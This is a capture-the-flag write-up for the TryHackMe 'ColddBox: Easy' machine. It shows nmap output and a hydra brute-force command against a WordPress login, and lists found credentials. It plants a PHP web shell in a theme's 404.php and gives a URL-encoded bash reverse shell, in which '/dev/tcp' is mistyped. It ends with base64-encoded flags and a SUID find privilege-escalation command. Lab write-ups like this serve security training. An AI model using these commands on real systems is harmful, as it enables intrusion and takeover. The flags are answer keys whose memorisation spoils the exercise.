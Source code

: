 TryHackMe.com

Box = ColddBox:Easy

export IP=10.10.162.148

# NMAP SCANS

```
# Nmap 7.60 scan initiated Sun Jan 10 10:20:53 2021 as: nmap -A -T4 -oN colddbox/nmap/NmapScan 10.10.162.148
Nmap scan report for ip-10-10-162-148.eu-west-1.compute.internal (10.10.162.148)
Host is up (0.00086s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
MAC Address: 02:BE:D2:93:56:BF (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.13
OS details: Linux 3.13
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.86 ms ip-10-10-162-148.eu-west-1.compute.internal (10.10.162.148)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 10 10:21:06 2021 -- 1 IP address (1 host up) scanned in 13.24 seconds

```

# INTERESTING FINDS

```
- Nmap shows wordpress version 4.1.31.
- gobuster reveals /wp-login.php which is a login page.
- /wp-admin redirects us to login page.
- /wp-trackback.php shows a message:I really need an ID for this to work
- /hidden page has message: (
U-R-G-E-N-T
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
)
- /wp-includes page shows different files and directory
- gobuster also shows /xmlrpc.php which is vulnerable to bruteforcing.
- using hydra we can login to the webserver
(command used: hydra -L [path_to_file_usernames] -P [Path_to_passwords] [IP_address] http-form-post '/wp-login.php:log^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location')
- Credentials found: (c0ldd:9876543210)
- editing 404.php file in theme resulted in RCE(system ($_REQUEST['cmd']);)
- payload bash script to get reverse shell needs to be urlencoded(cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftwetcp%2F10.10.88.184%2F9000%200%3E%261%27)(in /wp-content/themes/twentyfifteen/404.php?)
```
# TASK 1: user.txt? (Note: needs to be encoded)

- mVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

# TASK 2: root.txt? (Note: needs to be encoded)

-wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=


# How to find the flags?

- Look for files or binaries with weird SUID permissions either manual or automated.

Solution i found:

- command: find / -perm -4000 2>/dev/null
- this shows that find command has also SUID bit permission set so we can escalate from here.

# TO ESCALATE PRIVILEGES:

- go to gtfobins and look for find (https://gtfobins.github.io/gtfobins/find/)
- command: ./find . -exec /bin/sh -p \; -quit (note: run it in its directory)
